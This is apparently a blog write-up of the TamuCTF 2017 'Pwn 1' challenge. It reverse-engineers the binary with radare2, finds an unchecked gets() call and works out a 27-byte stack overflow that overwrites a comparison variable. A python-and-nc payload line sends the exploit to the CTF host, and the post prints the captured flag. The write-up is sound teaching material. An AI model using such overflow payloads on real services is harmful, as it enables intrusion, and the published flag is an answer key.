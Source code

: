```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-05-27T18:56:18+02:00
description: a
tags:
- test
title: "TamuCTF 2017 - Pwn 1"
summary: "We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn1 Challenge Description](/assets/TamuCTF2017/pwn1/1-pwn1_description.png)

We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2.

```bash
root@kali $ wget https://ctf.tamu.edu/files/7e968d03d9caa11a2f4f2909bd3cabc9/pwn1
$ r2 pwn1
```

Now that the binary is opened, we need to analyze its content.

```r2
[0xf7721ac0]> aaa		# Analyze
[0xf7721ac0]> afl		# List functions found
.
.
0x0804854b    4 103          sym.print_flag
0x080485b2    4 120          main
.
.
```

Interesting, there is `print_flag` function at `0x0804854b`. Lets see what's inside.

```r2
[0xf771eac0]> s sym.print_flag	# We move to beginning of print_flag function
[0x0804854b]> pdf				# print its code
```
![Pwn1 Open File Function](/assets/TamuCTF2017/pwn1/2-pwn1_open_flag.png)


Because of the offsets `0x08048569` and `0x0804856e` we can deduce that the function opens a file called **flag.txt** and prints its content. Fantastic :v:, so we just need to know who will call **print_flag**. This can be figured out through the `axt` command of r2 which stands for "cross reference to" the actual function.

```r2
[0x0804854b]> axt
call 0x8048606 call sym.print_flag in main
```

Cool, so this function will be called from offset `0x8048606` **main**. Lets see whats inside it.

```bash
[0x0804854b]> s main
[0x080485b2]> pdf
```
![Pwn1 Condition](/assets/TamuCTF2017/pwn1/3-pwn1_condition.png)

We see that **print_flag** will be called if the condition `local_ch == 0xca11ab1e` is not satisfied. But wait a moment, if we give a closer look to the assembly instrucctions we realized that the only variable we are supposed to edit is **local_27h** through the `gets` function:

![Pwn1 Gets Call](/assets/TamuCTF2017/pwn1/4-pwn1_gets_call.png)

So what we need to do? As maybe you know, **gets** is an unsecure function, because it does not check how many characters it must copy in memory when you introduce them. Then if we input more characters than it is supposed store, we will be able to overwrite neighbor local variables!

How can we know the length of the string we must provide? By knowing where the variables are stored onto the stack

![Pwn1 Stack diagram](/assets/TamuCTF2017/pwn1/5-pwn1_stack_view.png)

So finally, how many bytes do we need to start writting **local_ch**?
Easy!

`($ebp - 0xC) - ($ebp - 0x27)  = 0x27 - 0xC = 0x1B = 27d` 27 Characters.

```bash
$ python -c 'print("A"*27 + "\x1E\xAB\x11\xCA")' | nc pwn.ctf.tamu.edu 4322
Enter the secret word:
How did you figure out my secret?!
gigem{T00_435Y}
```

Answer: gigem{T00_435Y}

### Complete video

<a href="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc?autoplay=1"><img src="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
